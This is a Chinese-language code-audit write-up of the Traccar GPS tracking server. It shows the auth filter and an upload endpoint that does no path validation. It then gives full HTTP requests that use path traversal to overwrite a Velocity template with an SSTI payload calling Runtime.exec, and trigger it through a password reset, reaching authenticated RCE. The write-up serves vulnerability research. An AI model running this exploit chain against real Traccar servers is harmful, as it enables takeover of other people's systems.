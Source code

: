 

# traccar 代码审记小结 - 先知社区

traccar 代码审记小结

- - -

## 1\. 描述&环境搭建

Traccar 是一个开源的 GPS 跟踪系统，可以从[https://github.com/traccar/traccar/releases/download/v5.9/traccar-windows-64-5.9.zip](https://github.com/traccar/traccar/releases/download/v5.9/traccar-windows-64-5.9.zip) ，下载最新版本的安装包

默认安装后从 windows 服务启动 traccar（有一说一很不明白为什么放到服务里了不整个自启动）

访问[http://127.0.0.1:8082，](http://127.0.0.1:8082，)  
开始创建账号（根据官方文档，第一个创建的账号即为管理员账户）

## 2.代码审计

先检查下 build.gradle 里有没有什么有趣的依赖

```bash
//...
    implementation "com.mysql:mysql-connector-j:8.1.0"
    //...
    implementation "org.glassfish.jersey.containers:jersey-container-servlet:$jerseyVersion"
    implementation "org.glassfish.jersey.media:jersey-media-json-jackson:$jerseyVersion"
    implementation "org.glassfish.jersey.inject:jersey-hk2:$jerseyVersion"
    //...
    implementation "org.apache.velocity:velocity-engine-core:2.3"
    implementation "org.apache.velocity.tools:velocity-tools-generic:3.1"
    implementation "org.apache.commons:commons-collections4:4.4"
    //...
```

嗯，很好，mysql 依赖的版本很高，不能指望 jdbc 转 RCE 了，但是意外的看到了 velocity，一会可以留意下有没有 SSTI 的问题。

顺便提一嘴，glassfish 可以理解为 tomcat 的完整 javaee 实现版本，所以基本还是 filter 做鉴权，servlet 做路由那套。

接着看看鉴权部分是怎么做的  
src\\main\\java\\org\\traccar\\web\\WebServer.java

```bash
private void initApi(ServletContextHandler servletHandler) {
        String mediaPath = config.getString(Keys.MEDIA_PATH);
        if (mediaPath != null) {
            ServletHolder servletHolder = new ServletHolder(DefaultServlet.class);
            servletHolder.setInitParameter("resourceBase", new File(mediaPath).getAbsolutePath());
            servletHolder.setInitParameter("dirAllowed", "false");
            servletHolder.setInitParameter("pathInfoOnly", "true");
            servletHandler.addServlet(servletHolder, "/api/media/*");
        }

        ResourceConfig resourceConfig = new ResourceConfig();
        resourceConfig.registerClasses(
                JacksonFeature.class,
                ObjectMapperContextResolver.class,
                DateParameterConverterProvider.class,
                SecurityRequestFilter.class,
                CorsResponseFilter.class,
                ResourceErrorHandler.class);
        resourceConfig.packages(ServerResource.class.getPackage().getName());
        if (resourceConfig.getClasses().stream().filter(ServerResource.class::equals).findAny().isEmpty()) {
            LOGGER.warn("Failed to load API resources");
        }
        servletHandler.addServlet(new ServletHolder(new ServletContainer(resourceConfig)), "/api/*");
    }
```

然后我就发现这段代码看的一头雾水，是时候祭出 chatgpt 了，重点部分如下

```bash
在这个配置中，注册了一些类，包括 JacksonFeature、ObjectMapperContextResolver、DateParameterConverterProvider、SecurityRequestFilter、CorsResponseFilter 和 ResourceErrorHandler。这些类通常用于处理和管理 Web API 请求和响应。

最后，将配置好的 resourceConfig 添加到 servletHandler 中，映射到 "/api/*" 路径，这意味着该 Servlet 将处理以 "/api/" 开头的所有 HTTP 请求。

总之，这段代码是用于初始化一个 Servlet 上下文处理器，配置处理媒体文件的 Servlet 以及配置和注册用于处理 RESTful Web 服务请求的 Jersey 组件和资源类。
```

好，既然知道 filter 是哪几个了，那就看看鉴权都写的啥。

当翻到 SecurityRequestFilter 的时候，我突然释然的笑了，也就是说除了被 PermitAll 修饰的方法全都得过鉴权，经过一番 ctrl+shift+f，被我们寄予厚望的不需要授权的接口宣布 GG，呕吼，还是看看远方的授权有没有什么漏洞吧。

```bash
@Override
    public void filter(ContainerRequestContext requestContext) {

        //...
        SecurityContext securityContext = null;

        try {

            String authHeader = requestContext.getHeaderString("Authorization");
            if (authHeader != null) {

                try {
                    User user;
                    if (authHeader.startsWith("Bearer ")) {
                        user = loginService.login(authHeader.substring(7));
                    } else {
                        String[] auth = decodeBasicAuth(authHeader);
                        user = loginService.login(auth[0], auth[1]);
                    }
                    if (user != null) {
                        statisticsManager.registerRequest(user.getId());
                        securityContext = new UserSecurityContext(new UserPrincipal(user.getId()));
                    }
                } catch (StorageException | GeneralSecurityException | IOException e) {
                    throw new WebApplicationException(e);
                }

            } else if (request.getSession() != null) {

                Long userId = (Long) request.getSession().getAttribute(SessionResource.USER_ID_KEY);
                if (userId != null) {
                    User user = injector.getInstance(PermissionsService.class).getUser(userId);
                    if (user != null) {
                        user.checkDisabled();
                        statisticsManager.registerRequest(userId);
                        securityContext = new UserSecurityContext(new UserPrincipal(userId));
                    }
                }

            }

        } catch (SecurityException | StorageException e) {
            LOGGER.warn("Authentication error", e);
        }

        if (securityContext != null) {
            requestContext.setSecurityContext(securityContext);
        } else {
            Method method = resourceInfo.getResourceMethod();
            if (!method.isAnnotationPresent(PermitAll.class)) {
                Response.ResponseBuilder responseBuilder = Response.status(Response.Status.UNAUTHORIZED);
                String accept = request.getHeader("Accept");
                if (accept != null && accept.contains("text/html")) {
                    responseBuilder.header("WWW-Authenticate", "Basic realm=\"api\"");
                }
                throw new WebApplicationException(responseBuilder.build());
            }
        }

    }
```

### 2.1 后台任意文件上传一转 RCE

经过一番翻找，发现一个 uploadImage 竟然没有做文件名的校验，直接将传入的 path 拼接进 output，任意文件上传到手

```bash
@Path("file/{path}")
    @POST
    @Consumes("*/*")
    public Response uploadImage(@PathParam("path") String path, File inputFile) throws IOException, StorageException {
        permissionsService.checkAdmin(getUserId());
        String root = config.getString(Keys.WEB_OVERRIDE, config.getString(Keys.WEB_PATH));

        var outputPath = Paths.get(root, path);
        var directoryPath = outputPath.getParent();
        if (directoryPath != null) {
            Files.createDirectories(directoryPath);
        }

        try (var input = new FileInputStream(inputFile); var output = new FileOutputStream(outputPath.toFile())) {
            input.transferTo(output);
        }
        return Response.ok().build();
    }
```

但是这个环境虽然是类似 tomcat，但它很 spring，因为这玩意也是经典打包成 jar 包运行。

那么 windows+jar 包的格式怎么让任意文件上传变成 RCE 呢，经过我一番思索（指摇了个师傅救场）后，恍然发现前面不还有个模板引擎吗？正好这个项目的模板还是放在 Jar 包外面，这覆盖完不就 RCE 了吗。

一番寻找后锁定了`.\templates\full\passwordReset.vm`作为我的目标

掏出我珍藏的 velocity payload，将如下请求的 cookie 修改为有效 cookie 后发送，检查会发现 passwordReset.vm 被成功覆盖

```bash
POST /api/server/file/..%2ftemplates%2ffull%2fpasswordReset.vm HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: image/jpeg
Content-Length: 376
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

#set($subject = "Password reset")
<!DOCTYPE html>
<html>
<body>
To reset password please click on the following link:<br>
<a href="$webUrl/reset-password?passwordReset=$token">$webUrl/reset-password?passwordReset=$token</a><br>
</body>
</html>


#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo aaa > pwn.txt");
```

接着将如下请求的 cookie 修改为有效 cookie，将 email 修改为创建账号的 email 后发送

```bash
POST /api/password/reset HTTP/1.1
Host: 192.168.109.155:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.109.155:8082/settings/preferences
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 18
Origin: http://192.168.109.155:8082
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

email=YOUR_Login_Email
```

检查安装目录（windows 默认安装在 C:\\Program Files\\Traccar 下），成功生成 pwn.txt

## 3.总结

新人的练手作品，如果哪里有问题还希望各位师傅多多指点，SALUTE！
